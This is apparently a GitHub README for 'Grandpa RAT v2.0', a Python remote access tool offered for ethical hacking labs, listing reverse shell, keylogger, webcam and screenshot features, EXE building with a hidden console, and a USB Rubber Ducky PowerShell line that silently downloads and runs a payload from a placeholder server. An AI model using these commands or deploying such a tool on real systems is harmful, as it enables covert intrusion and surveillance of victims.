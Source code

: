 📘 README.md
markdown
Copy
Edit
# 👴 Grandpa RAT v2.0 - Remote Access Tool (Educational)

**Grandpa RAT v2.0** is a modular Remote Access Tool (RAT) built in Python for educational and ethical hacking labs. This tool enables secure remote administration, basic surveillance, and command execution through a stealth client-server setup with both GUI and terminal-based controllers.

> ⚠️ **Educational Use Only.** Do not deploy on unauthorized systems. Built for testing in controlled environments such as VMs or cybersecurity labs.

---

## 🧠 Features

| Feature                        | Description                                     |
|-------------------------------|-------------------------------------------------|
| 🔁 Reverse Shell              | Execute remote shell commands on the victim    |
| 🔐 Password Protection        | Secure client-server communication             |
| 📷 Screenshot Capture         | Take and retrieve desktop screenshots          |
| 🎥 Webcam Snapshot            | Capture image from victim’s webcam             |
| ⌨️ Keylogger                 | Log keystrokes silently in the background      |
| 🧠 GUI Controller             | Intuitive Tkinter-based interface              |
| 🖥️ Terminal Controller       | Optional command-line controller               |
| 💉 Rubber Ducky Payload       | USB attack script for automatic delivery       |
| 🔧 Obfuscation (WIP)          | Placeholder for EXE stealth & encryption       |

---

## 📂 Project Structure

GrandpaRAT-v2.0/ ├── client/ # RAT client scripts (keylogger, webcam, shell) ├── server/ # GUI & CLI controllers ├── delivery/ # USB-based rubber ducky payload ├── build_tools/ # Obfuscation & EXE builder (to be added) ├── README.md # This documentation └── .gitignore # Git exclusions

yaml
Copy
Edit

---

## 🚀 Getting Started

### 📦 Dependencies

```bash
pip install pyautogui opencv-python pynput
🧪 Usage (Test Lab Setup)
Start the GUI server (controller):

bash
Copy
Edit
cd server
python gui_controller.py
Run the RAT client (on victim or test machine):

bash
Copy
Edit
cd client
python rat_client.py
Once connected:

Type commands like whoami, screenshot, webcam, or exit

Outputs will appear in the GUI

🛠️ Build Client to .EXE
Install PyInstaller:

bash
Copy
Edit
pip install pyinstaller
Build the EXE:

bash
Copy
Edit
pyinstaller --onefile --noconsole rat_client.py
EXE will be in the /dist folder

🕵️ Obfuscation and AV evasion steps will be available in /build_tools/obfuscate.py (coming soon)

🧪 Rubber Ducky Delivery (USB)
Found in delivery/rubber_ducky_payload.txt. Load onto a Rubber Ducky or HID attack tool to automate:

powershell
Copy
Edit
powershell -w hidden -c "iwr http://yourserver/payload.exe -OutFile $env:temp\\rat.exe; Start-Process $env:temp\\rat.exe"
👨‍🔬 Legal Disclaimer
This software is intended strictly for educational purposes and authorized penetration testing.
Do not deploy on unauthorized networks or systems.
The author assumes no responsibility for misuse or damage.

🧑‍💻 Author
Matthew Ogoh – Cybersecurity Specialist & Ethical Hacker
GitHub: @grandpacltn
Twitter: @cybergrandpa__

⭐ Show Some Love
If this project helped you learn, consider giving it a ⭐ on GitHub. Let's build safer systems and smarter hackers!

